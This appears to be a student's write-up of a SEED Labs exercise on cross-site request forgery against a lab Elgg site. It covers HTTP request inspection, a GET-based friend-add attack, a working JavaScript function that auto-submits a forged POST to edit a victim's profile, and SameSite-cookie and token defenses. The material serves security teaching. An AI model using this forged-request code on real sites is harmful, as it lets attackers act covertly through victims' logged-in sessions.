


# Task 1: Observing the HTTP request

## Post request

To observe a post request, open the capture tool and login to a elgg user.

### Headers


From the screenshot, we can tell that the request method is a `POST` to a url `http://www.seed-server.com/action/login` with some common headers.

The special ones are:
```
# Response headers
Set-Cookie
  Elgg=031glr4hsq7839bmhm5c0pifps; path=/

# Request headers
Cookie
  Elgg=57rmblkfovn6foo20ivqiav3ud

X-Elgg-Ajax-API
  2
```
these headers seems special to use in the elgg website

### Request body


In the screenshot we can see the request body being passed to the backend to login the user with four form fields `__elgg_token`. `__elgg_ts`, `username` and `password`

### Response body

In the response body, we can see that the return data should be use for some sort of routing purpose

## GET Request
When we visit a user profile, the website performs a `GET` request

### Headers

In the screenshot above we can see that the `GET` request is made to `/profile/sammy`
Notice that the `Cookie`'s Elgg field have the same value as the `Set-Cookie` value of the response header in the previous post request

### Response


The response that is return by the `GET` request is a html page that to be rendered


# Task 2: CSRF attack using GET Request
In this task, the goal is to trick alice to click on to a malicious website and without her doing anything, an add friend request will be sent to samy

## Inspecting request
To carry out the CSRF attack, we need to first inspect the add friend request's HTTP requst.

We can use another user, lets say bobby and try to add samy as friend and we will get the following request

We can see that there are a few parameters for this request to take note.
It is a `GET` request made to `/action/friend/add` endpoint with the query field `friend`, `__elgg_ts`,`__elgg_token`

We can infer that friend `59` is the `id` of samy

Hence to let alice add samy as friend, we just need to let alice perform a get request to the same endpoint with samy's `id`

## How to carry out
We can use a `img` tag with a very small width and height and embed it into a website for samy to click on.
This `img` tag will have the `src` attribute set to the `GET` request that we want alice to made.

Hence we have the following piece of code 
```html

```
We embed this code into the malicious website, if alice is logged in to her account on the same browser and open this malicious website.It will automatically add samy as friend without alice's notice.

# Task 3: CSRF Attack using POST Request

In this task, we are suppose to forge a `POST` request to edit Alice's profile

## Request
We first use Alice's account to initiate a change profile request and we can observe the request

In the headers, we can see that the destination of this request is to `http://www.seed-server.com/action/profile/edit`


In the request body, we can see how we want to construct the post request in our CSRF. Since we want to edit the briefdescription field, we only need to add that in our post request form


The GUID of alice is 56, this is essential for the server to know which user is editing the profile

## Code
In the following code, I edited the relevant fields using the same request content as the `POST` request seen from above.

I also change the `p.action` to the destination address that we want to make the request to.

```javascript
function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='Alice'>";
    fields += "<input type='hidden' name='briefdescription' value='Samy is my hero'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";         
    fields += "<input type='hidden' name='guid' value='56'>";

    // Create a <form> element.
    var p = document.createElement("form");

    // Construct the form
    p.action = "http://www.seed-server.com/action/profile/edit";
    p.innerHTML = fields;
    p.method = "post";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}

```

Now, we alice click on the link `http://www.attacker32.com/editprofile.html` she will be redirected to her profile page and her brief description is changed to `samy is my hero`


## Question 1
For Samy to obtain Alice's GUID. He can add alice as friend and observe the query parameter of the request. The number that is tagged to the `friend` field is the GUID of alice.

## Question 2
No, if he does not know who is visiting the web page beforehand,he cant launch the CSRF attack on the victim as it is very hard for him to obtain the GUID of the victim

# Task 4: Defense
## Task 4.1: Elgg Counter measure
Delete the `return` statement in the `validate` function in the `Csrf.php` file.
Carry out the attack again
We can see that the atttack failed because the tokens are not provided


### Explanation
Web browsers enforce the Same-Origin Policy (SOP), which prevents a script running on one domain from accessing data that belongs to another domain. This policy ensures that scripts on the attacker’s website cannot read or steal the CSRF token from a form or AJAX request on the target website, as the token is considered sensitive data.
Since the attacker cannot obtain these CSRF tokens, they cant send it together with the malicious attacks

## Task 4.2: SameSite Cookie method

When making `GET` or `POST` request from `example32.com`. Both requests shows all three cookies and stating that it is a `same-site` site request


However, when making `GET` request from the `attacker32.com` we can see that the `strict-cookie` is not sent


When making `POST` request not even the `lax-cookie` is sent


### Answering the Questions
1. The observed behaviour as as shown above. Cookies are not sent based on the `cross-site` status and the different `HTTP` method. For example, a cross site get requests has permission to send the `lax-cookie` but cross site `POST` request can only send the `normal-cookie`
2. Base on part 1, the different cookies sent to the backend can help the backend to perform some sort of `verification` and `identification`and implement certain restrictions on certain endpoints base on the cookies that they received. For example, if the server wants to restrict access to `edit profile` endpoint then it will require the client to send the `strict-cookie`, but for endpoints that is safe and can be allowed for cross site request, then they only require the `normal-cookie` or `lax-cookie`. Then the backend can determine whether to proceed to the next step depending on the cookies that it receives
3. We can make sure that for the endpoints that we do not want malicious attacker to perform CSRF attack to passed the cookie check first. take for example the edit profile attack, the server can check that if a `strict-cookie` and/or `lax-cookie` is passed in the header, if not then drop the request. Where as for the `add-friend` request, the backend can check if `strict-cookie` is passed in the header before adding as friend.
